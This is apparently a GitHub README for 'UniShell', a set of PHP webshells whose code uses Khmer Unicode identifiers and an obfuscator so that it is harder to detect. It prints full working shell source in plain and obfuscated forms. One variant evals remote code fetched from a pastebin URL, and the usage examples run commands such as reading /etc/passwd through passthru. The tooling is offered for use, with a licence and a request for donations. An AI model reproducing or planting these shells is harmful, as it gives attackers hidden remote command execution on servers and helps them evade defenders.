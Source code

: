 # UniShell
Unishell is a family of php webshells that based on nano shell (https://github.com/s0md3v/nano) which are using khmer unicode characters (ក, ខ, គ) and combinded with YAK pro Php Obfuscator to be more undetectable and silently.

### None-Obfuscate
1. Soriya
```php
<?php $ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); ?>
```
**Note:** For the options `ល` is the password `ធិ៤០៤` which mean you can change the string with your own password.

### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command`

**For example**, we want to show the /etc/passwd in the system so we use options us below:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=cat /etc/passwd`

### Screenshot-1
![handler](https://i.imgur.com/YS1JMHE.png)

2. Kolab
```php
<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>
```
### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command; `ដ` for Url;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command&ដ=url`

***For example***, we want to use the PHP Web Shell from another source in the target system, so it will be:
```url
http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=uname -a&ដ=https://pastebin.com/raw/JfLvh0MG
```
### Screenshot-2

![handler](https://imgur.com/WCfChGe.png)

### Screenshot-3

![handler](https://imgur.com/HSb9rbd.png)

### Obfuscated
In this code below i used yak to obfuscated it.

1. Soriya
```php
<?php goto JFDwF; NnbkH: $gOzsO[ល] == ធិ៤០៤ & $gOzsO[ម]($gOzsO[ប]); goto ymB7H; B3hLL: if (!($gOzsO[ត] != null)) { goto y8I95; } goto NnbkH; JFDwF: $gOzsO = $_GET; goto B3hLL; ymB7H: y8I95: ?>
```
2. Kolab
```php
<?php goto N6Ag4; KMKUH: $I9NO2[ល] == ធិ៤០៤ & $I9NO2[ម]($I9NO2[ប]); goto cuHHG; N6Ag4: $I9NO2 = $_GET; goto clZU6; clZU6: if (!($I9NO2[ត] != null)) { goto P0yeE; } goto KMKUH; cuHHG: P0yeE: goto hYsr_; hYsr_: eval("\x3f\x3e" . file_get_contents($I9NO2[ដ])); ?>
```
### License
If you want to use or modify it, just give me a credit or some donation. xD
